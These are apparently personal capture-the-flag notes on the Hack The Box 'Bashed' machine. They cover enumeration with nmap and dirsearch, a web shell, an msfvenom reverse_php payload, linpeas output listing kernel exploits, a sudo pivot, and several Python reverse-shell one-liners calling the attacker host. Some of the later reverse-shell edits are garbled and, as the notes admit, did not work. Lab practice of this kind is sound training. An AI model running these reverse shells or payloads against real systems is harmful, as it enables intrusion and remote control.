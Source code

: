 ---
Bashed - HTB - TJNULL - Linux
10.10.10.68


5:57 PM 1/30/2023
nmap -Pn -sV -sC -p- -oN full 10.10.10.7


5:57 PM 1/30/2023
┌──(root㉿kali)-[/home/kali/Documents/hackthebox/bashed]
└─# nmap -Pn -sV -sC 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-30 22:57 EST
Nmap scan report for 10.10.10.68
Host is up (0.22s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)


5:59 PM 1/30/2023
┌──(root㉿kali)-[/home/kali/Documents/hackthebox/bashed]
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.68 -k -t 50 -x php,txt,zip 



6:01 PM 1/30/2023
┌──(root㉿kali)-[/home/kali/Documents/hackthebox/bashed]
└─# dirsearch -u http://10.10.10.68:80 -x 400,401,403

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/10.10.10.68-80/_23-01-30_23-20-15.txt

Error Log: /root/.dirsearch/logs/errors-23-01-30_23-20-15.log

Target: http://10.10.10.68:80/

[23:20:15] Starting: 
[23:20:17] 301 -  307B  - /js  ->  http://10.10.10.68/js/
[23:20:20] 301 -  308B  - /php  ->  http://10.10.10.68/php/
[23:20:30] 200 -    8KB - /about.html
[23:20:42] 200 -    0B  - /config.php
[23:20:43] 200 -    8KB - /contact.html
[23:20:44] 301 -  308B  - /css  ->  http://10.10.10.68/css/
[23:20:45] 301 -  308B  - /dev  ->  http://10.10.10.68/dev/
[23:20:45] 200 -    1KB - /dev/
[23:20:47] 301 -  310B  - /fonts  ->  http://10.10.10.68/fonts/
[23:20:49] 301 -  311B  - /images  ->  http://10.10.10.68/images/
[23:20:49] 200 -    2KB - /images/
[23:20:50] 200 -    8KB - /index.html
[23:20:51] 200 -    3KB - /js/
[23:20:57] 200 -  939B  - /php/
[23:21:06] 301 -  312B  - /uploads  ->  http://10.10.10.68/uploads/
[23:21:06] 200 -   14B  - /uploads/


6:22 PM 1/30/2023

in http://10.10.10.68/dev/	able to get php shell by using tutorial on web page.

6:23 PM 1/30/2023
www-data@bashed:/var/www/html/dev# whoami
www-data



6:24 PM 1/30/2023
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# ls
user.txt
www-data@bashed:/home/arrexel# cat user.txt
963186140a25ae21965b9dd2946d4ba3

6:25 PM 1/30/2023
msfvenom -p php/reverse_php LHOST=10.10.16.4 LPORT=6666 -f raw > shell.php																							# trying to get in a better shell.




6:29 PM 1/30/2023
┌──(root㉿kali)-[/home/kali/Documents/hackthebox/bashed]																													# pulled file over using netcat, worked.
└─# nc -lvp 4444 < shell.php 

6:43 PM 1/30/2023
www-data@bashed:/tmp# nc 10.10.16.4 4444 > shell.php


6:45 PM 1/30/2023																																						# cant use a reverse shell, going to use built in shell.
www-data@bashed:/tmp# ./shell.php
sh: 1: ./shell.php: Permission denied


6:45 PM 1/30/2023
www-data@bashed:/tmp# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL																														# this is how you priv esc. need to get into script manager.


6:51 PM 1/30/2023
www-data@bashed:/home/arrexel# uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


6:58 PM 1/30/2023																																		# looking at suid bits
find / -perm -u=s -type f 2>/dev/null


7:03 PM 1/30/2023																														# note this in main linux notes. 
	# this is a pentest monkey python script that is used as a reverse shell - wqe needed a reverse shell because we were unable to run sudo or su so could not priv esc
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",1234));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


7:06 PM 1/30/2023																													#netcat and new shell

┌──(root㉿kali)-[/home/kali/Documents/hackthebox/bashed]
└─# nc -lvnp 1234           
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.68] 50098
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data


7:07 PM 1/30/2023																									# upgrading into bash shell.
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/bin$ 


7:19 PM 1/30/2023																									# hosting http server
┌──(root㉿kali)-[/home/kali/Documents/transfer]
└─# python3 -m http.server                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.68 - - [31/Jan/2023 00:18:18] "GET / HTTP/1.1" 200 -
10.10.10.68 - - [31/Jan/2023 00:18:51] "GET /linpeas.sh HTTP/1.1" 200 -


7:16 PM 1/30/2023																									# putting linpeas on box.
www-data@bashed:/tmp$ wget 10.10.16.4:8000/linpeas.sh 
wget 10.10.16.4:8000/linpeas.sh
--2023-01-30 21:18:50--  http://10.10.16.4:8000/linpeas.sh
Connecting to 10.10.16.4:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828087 (809K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 808.68K   889KB/s    in 0.9s    

2023-01-30 21:18:51 (889 KB/s) - 'linpeas.sh' saved [828087/828087]

www-data@bashed:/tmp$ 



7:19 PM 1/30/2023																			# made linpeas.sh executable
www-data@bashed:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh


7:21 PM 1/30/2023
ran linpeas.sh



Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017

] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: probable
   Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic}
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh



apache2 process found (dump creds from memory as root)


7:50 PM 1/30/2023																			

www-data@bashed:/tmp$ sudo -u scriptmanager bash -i
sudo -u scriptmanager bash -i
scriptmanager@bashed:/tmp$ whoami



7:52 PM 1/30/2023
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan 30 21:51 test.txt
scriptmanager@bashed:/scripts$ 



7:56 PM 1/30/2023

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",4321));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close




scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",4321));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'")
f.close > echo.py



"f = open("test.txt", "w")"

"f.write("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",4321));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'")" >> test.py


import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
"s.connect(("10.10.16.5", 4321))"
"os.dup2(s.fileno(),0)"
"os.dup2(s.fileno(),1)"
"os.dup2(s.fileno(),2)"
"p=subprocess.call(["/bin/sh","-i"])> test.py"

echo "import socket,subprocess,os" > test.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> test.py
echo "s.connect((10.10.16.5,4321))" >> test.py
echo "os.dup2(s.fileno(),0)" >> test.py
echo "os.dup2(s.fileno(),1)" >> test.py
echo "os.dup2(s.fileno(),2)" >> test.py
echo "p=subprocess.call(["/bin/sh","-i"])" >> test.py


my reverse shell isnt working. quitting for now 


8:40 PM 1/30/2023

